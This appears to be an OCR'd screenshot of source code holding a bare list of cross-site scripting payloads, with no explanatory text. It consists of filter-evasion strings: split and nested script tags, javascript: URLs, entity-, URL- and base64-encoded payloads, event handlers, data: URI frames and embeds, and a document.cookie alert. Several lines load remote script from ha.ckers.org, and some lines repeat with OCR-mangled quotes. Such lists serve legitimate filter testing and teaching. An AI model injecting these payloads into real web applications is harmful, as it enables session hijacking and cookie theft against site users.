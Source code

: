       "><img src=x onerror=window.open('https://www.google.com/');>
      <form><button formaction=javascript&colon;alert(1)>CLICKME
      <math><a xlink:href="//jsfiddle.net/t846h/">click
      <object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+></object>
      <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
      <a href="data:text/html;blabla,&#60&#115&#99&#114&#105&#112&#116&#32&#115&#114&#99&#61&#34&#104&#116&#116&#112&#58&#47&#47&#115&#116&#101&#114&#110&#101&#102&#97&#109&#105&#108&#121&#46&#110&#101&#116&#47&#102&#111&#111&#46&#106&#115&#34&#62&#60&#47&#115&#99&#114&#105&#112&#116&#62&#8203">Click Me</a>
      <SCRIPT>String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41)</SCRIPT>
      ‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
      <IMG “””><SCRIPT>alert(“XSS”)</SCRIPT>”>
      <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
      <IMG SRC=”jav ascript:alert(‘XSS’);”>
      <IMG SRC=”jav&#x09;ascript:alert(‘XSS’);”>
      <<SCRIPT>alert(“XSS”);//<</SCRIPT>
      %253cscript%253ealert(1)%253c/script%253e
      “><s”%2b”cript>alert(document.cookie)</script>
      foo<script>alert(1)</script>
      <scr<script>ipt>alert(1)</scr</script>ipt>
      <IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
      <IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
      <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
      <BODY BACKGROUND=”javascript:alert(‘XSS’)”>
      <BODY ONLOAD=alert(‘XSS’)>
      <INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”>
      <IMG SRC=”javascript:alert(‘XSS’)”
      <iframe src=http://ha.ckers.org/scriptlet.html <
      javascript:alert("hellox worldss")
      <img src="javascript:alert('XSS');">
      <img src=javascript:alert(&quot;XSS&quot;)>
      <"';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
      <META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
      <IFRAME SRC="javascript:alert('XSS');"></IFRAME>
      <EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
      <SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <<SCRIPT>alert("XSS");//<</SCRIPT>
      <"';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
      ';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))<?/SCRIPT>&submit.x=27&submit.y=9&cmd=search